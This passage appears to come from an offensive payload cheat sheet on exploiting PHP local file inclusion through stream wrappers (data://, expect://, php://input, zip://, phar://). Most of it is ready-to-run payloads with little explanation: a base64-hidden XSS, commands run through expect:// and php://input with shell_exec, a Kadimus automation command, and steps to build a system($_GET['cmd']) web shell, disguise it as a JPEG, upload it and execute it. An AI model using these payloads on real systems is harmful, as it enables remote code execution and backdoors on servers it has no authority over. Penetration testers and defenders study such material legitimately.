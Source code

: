 Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`


### Wrapper expect://

```powershell
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```


### Wrapper input://

Specify your payload in the POST parameters, this can be done with a simple `curl` command.

```powershell
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

Alternatively, Kadimus has a module to automate this attack.

```powershell
./kadimus -u "https://example.com/index.php?page=php://input%00"  -C '<?php echo shell_exec("id"); ?>' -T input
```

### Wrapper zip://

1. Create an evil payload: `echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;`
2. Zip the file
  ```python
  zip payload.zip payload.php;
  mv payload.zip shell.jpg;
  rm payload.php
  ```
3. Upload the archive and access the file using the wrappers: http://example.com/index.php?page=zip://shell.jpg%23payload.php


### Wrapper phar://

#### PHAR archive structure

PHAR files work like ZIP files, when you can use the `phar://` to access files stored inside them.

1. Create a phar archive containing a backdoor file: `php --define phar.readonly=0 archive.php`

  ```php
  <?php
    $phar = new Phar('archive.phar');
    $phar->startBuffering();
    $phar->addFromString('test.txt', '<?php phpinfo(); ?>');
    $phar->setStub('<?php __HALT_COMPILER(); ?>');
    $phar->stopBuffering();
  ?>
  ```
